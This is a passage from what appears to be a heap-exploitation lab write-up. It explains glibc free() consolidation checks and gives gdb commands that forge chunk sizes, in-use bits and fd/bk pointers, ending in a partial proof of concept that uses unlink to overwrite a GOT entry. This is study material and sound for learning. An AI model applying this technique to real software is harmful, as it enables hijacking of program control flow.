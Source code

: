 - Next we check that the address of the next chunk is not at the top/the "wilderness" which in our case is not as we are setting the size of our chunk to 100. Hence, to prevent us from crashing, we must handle this case as well

    ```
    if (nextchunk != av->top) {
    ...
    ```

- We then check if the next chunk is in use and if it is not in use, then we will unlink the next chunk

    ```
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

    /* consolidate forward */
    if (!nextinuse) {
        unlink(nextchunk, bck, fwd);
        size += nextsize;
    } else
        clear_inuse_bit_at_offset(nextchunk, 0);
    ```

- Then, we can choose to handle either the if-block or the else-block

    1. if-block: we can unset the in-use flag of the memory location determining whether the next chunk from the current chunk is in use or not (this will be in the next chunk of the next chunk, as the next chunk of the next chunk will determine if the previous chunk is in use or not). If we do so, then we will need to add the bk and fd addresses pointing to anywhere on the heap for the next chunk to prevent the program from crashing.

        ```
        (gdb) set {int}0x804c0b8=0x10
        (gdb) set {int}0x804c0c8=0x10        // determines whether the next chunk from the current chunk is in use or not
        (gdb) set {int}0x804c0bc=0x804c080
        (gdb) set {int}0x804c0c0=0x804c090
        ```

    2. else-block: we can set the in-use flag of the memory location determining whether the next chunk from the current chunk is in use or not (this will be in the next chunk of the next chunk, as the next chunk of the next chunk will determine if the previous chunk is in use or not). If we do so, then we do not need to handle the unlink() function call in the if-block.

        ```
        (gdb) set {int}0x804c0b8=0x10
        (gdb) set {int}0x804c0c8=0x11       // determines whether the next chunk from the current chunk is in use or not
        ```

- The rest of the program after this should not be so important... for now :)

- Initial Proof-of-Concept (set breakpoint at the first free() function call):

    ```
    (gdb) set {int}0x804c048=0x804b11c       // GOT table function - 12
    (gdb) set {int}0x804c04C=0x804c010       // Address to overwrite the GOT table function with
    (gdb) set {int}0x804c044=0x11            // doesn't matter if it is 0x10 or 0x11
    (gdb) set {int}0x804c050=0x10            // *c
    (gdb) set {int}0x804c054=100             // *c
